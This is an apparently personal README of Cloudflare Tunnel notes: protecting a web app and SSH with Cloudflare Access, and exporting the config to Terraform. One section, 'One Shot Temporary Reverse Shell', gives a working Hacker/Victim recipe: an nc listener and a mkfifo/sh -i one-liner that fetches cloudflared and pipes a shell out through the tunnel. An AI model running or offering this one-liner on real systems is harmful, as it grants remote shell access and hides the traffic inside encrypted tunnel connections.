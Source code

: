 # Cloudflared 101

## *REQUIRED* Setup on your Host

```bash
curl -L --output cloudflared.deb https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-amd64.deb
sudo dpkg -i cloudflared.deb
```

## Protect Web Application

https://one.dash.cloudflare.com/YOUR_ID/access/apps/add

- Register domain (I use personally use https://us-east-1.console.aws.amazon.com/route53/domains/home)
- Add "site" to cloudflare, the tld NS records must point to cloudflare requested ns at https://dash.cloudflare.com/
- Serve your app locally: `cd "$(mktemp -d)" && date | tee index.html && python -m http.server -b 127.0.0.1 1337`
- Create a cloudflare app at https://one.dash.cloudflare.com/ > Access > Applications > Add
    - `Self Hosted` app named `srv`
    - Subdomain is `srv.lalu.tv`
    - Keep `Accept all available identity providers` enabled
- Create a Policy
    - Allow only your auth group, create it at https://one.dash.cloudflare.com/YOUR_ID/access/groups?search=
    - Allow by email list, or valid tld of your corp
- Create a Cloudflared Tunnel `srv` at https://one.dash.cloudflare.com/ > Networks > Tunnels > Add
    - Pick `cloudflared`, name it `srv`
    - Start the tunnel: `sudo cloudflared service install eyJYOUR_TOKEN`
    - You should now see a connector appear, it's your host's link ready to serve content
    - Specify the tunnel's hostname and protocol as `srv.lalu.tv` and `http://127.0.0.1:1337`
- You're DONE!
    - Visit https://srv.lalu.tv/
    - Provide your email & received OTP
    - Profit!
- Once you're done, clean-up stuff
    - https://dash.cloudflare.com/
        - Websites > lalu.tv > DNS > Records > Edit > Delete
        - Zero Trust > Applications > srv > Delete
        - Zero Trust > Network > Tunnels > srv > Delete

## Protect SSH Access + WebUI Bonus

- Register domain (I use personally use https://us-east-1.console.aws.amazon.com/route53/domains/home)
- Add "site" to cloudflare, the tld NS records must point to cloudflare requested ns at https://dash.cloudflare.com/
- Configure your local ssh server (Do it yourself yo!)
- Create a cloudflare app at https://one.dash.cloudflare.com/ > Access > Applications > Add
    - `Self Hosted` app named `ssh`
    - Subdomain is `ssh.lalu.tv`
    - Keep `Accept all available identity providers` enabled
    - Enable `automatic cloudflared authentication` for convenience
    - *Optional* enable `browser rendering` to access ssh over https in your browser
- Create a Policy
    - Allow only your auth group, create it at https://one.dash.cloudflare.com/YOUR_ID/access/groups?search=
    - Allow by email list, or valid tld of your corp
- Create a Cloudflared Tunnel `ssh` at https://one.dash.cloudflare.com/ > Networks > Tunnels > Add
    - Pick `cloudflared`, name it `ssh`
    - Start the tunnel: `sudo cloudflared service install eyJYOUR_TOKEN`
    - You should now see a connector appear, it's your host's link ready to serve content
    - Specify the tunnel's hostname and protocol as `ssh.lalu.tv` and `ssh://127.0.0.1:22`
- You're DONE!
    - For *WEB SSH* access, visit https://ssh.lalu.tv/
    - For *CLI SSH* access, run `ssh -o "ProxyCommand cloudflared access ssh --hostname %h" lalu@ssh.lalu.tv`
    - Provide your email & received OTP
    - Profit!
- Once you're done, clean-up stuff
    - https://dash.cloudflare.com/
        - Websites > lalu.tv > DNS > Records > Edit > Delete
        - Zero Trust > Applications > ssh > Delete
        - Zero Trust > Network > Tunnels > ssh > Delete

---

## One Shot Temporary Reverse Shell

Doc: https://developers.cloudflare.com/cloudflare-one/applications/non-http/arbitrary-tcp/

```bash
## Hacker
cloudflared tunnel login
cloudflared tunnel --hostname oneshot.lalu.tv --url tcp://127.0.0.1:8000 --name oneshot
rlwrap nc -lnvp 8000

## Victim
docker run --rm -it ubuntu:22.04 bash -il
apt update && apt install -y wget
wget https://github.com/cloudflare/cloudflared/releases/download/2024.2.1/cloudflared-linux-amd64 -O /tmp/cloudflared && chmod a+x /tmp/cloudflared && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|/tmp/cloudflared access tcp --hostname oneshot.lalu.tv >/tmp/f

# Double check your tunnel in encrypted
## On Host
sudo tcpdump -A -i enp5s0 port 443 # Encrypted traffic from/to the outer world
sudo tcpdump -A -i lo port 8000    # Plaintext traffic from/to cloudflared and our loopback
for i in {1..20}; do echo "$i"; date; sleep 1; done # Generate identifiable traffic in the newly spawned reverse shell

# Cleanup once you're done
cloudflared tunnel delete oneshot
# No cli option to remove dns record, visit https://dash.cloudflare.com/ > lalu.tv > DNS > recoreds > Edit > Delete
rm ~/.cloudflared/cert.pem # Remove your local tunnel auth
```

---

## Dump Cloudflare Config As Terraform

- https://github.com/cloudflare/cf-terraforming
- https://github.com/jdx/mise

```bash
mise install golang@latest
mise use golang@latest
go install github.com/cloudflare/cf-terraforming/cmd/cf-terraforming@latest
# Setup your token yo!
cat > main.tf << EOF
terraform {
  required_providers {
    cloudflare = {
      source  = "cloudflare/cloudflare"
      version = "~> 4.0"
    }
  }
}
EOF
terraform init
cf-terraforming generate --email "$CLOUDFLARE_EMAIL" --key "$CLOUDFLARE_API_KEY" --zone "$CLOUDFLARE_ZONE_ID" --resource-type "cloudflare_record" | tee -a main.tf
```

## Future ideas

- WAF
- Pages
- Workers
- Analytics & Debugging
